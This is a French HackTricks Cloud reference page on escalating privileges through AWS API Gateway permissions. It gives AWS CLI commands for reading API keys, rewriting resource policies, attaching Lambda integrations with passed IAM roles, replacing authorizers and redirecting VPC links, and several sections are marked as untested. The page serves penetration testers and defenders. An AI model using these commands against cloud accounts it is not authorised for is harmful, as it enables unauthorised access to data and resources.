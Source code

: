 # AWS - Apigateway Privesc

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Apigateway

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Avec cette permission, vous pouvez générer des clés API des APIs configurées (par région).
```bash
aws --region <region> apigateway create-api-key
```
**Impact potentiel :** Vous ne pouvez pas effectuer de privesc avec cette technique, mais vous pourriez accéder à des informations sensibles.

### `apigateway:GET`

Avec cette permission, vous pouvez obtenir les clés API générées des API configurées (par région).
```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impact potentiel :** Vous ne pouvez pas effectuer de privesc avec cette technique, mais vous pourriez accéder à des informations sensibles.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Avec ces permissions, il est possible de modifier la politique de ressource d'une API pour se donner l'accès à l'appeler et abuser des accès potentiels que la passerelle API pourrait avoir (comme invoquer un lambda vulnérable).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impact potentiel :** Vous ne pourrez généralement pas réaliser une élévation de privilèges directement avec cette technique, mais vous pourriez accéder à des informations sensibles.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Nécessite des tests
{% endhint %}

Un attaquant disposant des permissions `apigateway:PutIntegration`, `apigateway:CreateDeployment` et `iam:PassRole` peut **ajouter une nouvelle intégration à une API REST API Gateway existante avec une fonction Lambda qui a un rôle IAM attaché**. L'attaquant peut ensuite **déclencher la fonction Lambda pour exécuter du code arbitraire et potentiellement accéder aux ressources associées au rôle IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Accès aux ressources associées au rôle IAM de la fonction Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Nécessite des tests
{% endhint %}

Un attaquant disposant des permissions `apigateway:UpdateAuthorizer` et `apigateway:CreateDeployment` peut **modifier un authorizer API Gateway existant** pour contourner les contrôles de sécurité ou pour exécuter du code arbitraire lors des requêtes API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impact potentiel** : Contournement des contrôles de sécurité, accès non autorisé aux ressources de l'API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Nécessite des tests
{% endhint %}

Un attaquant disposant de la permission `apigateway:UpdateVpcLink` peut **modifier un VPC Link existant pour le faire pointer vers un autre équilibreur de charge réseau, redirigeant potentiellement le trafic d'une API privée vers des ressources non autorisées ou malveillantes**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impact Potentiel** : Accès non autorisé aux ressources d'API privées, interception ou perturbation du trafic API.

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
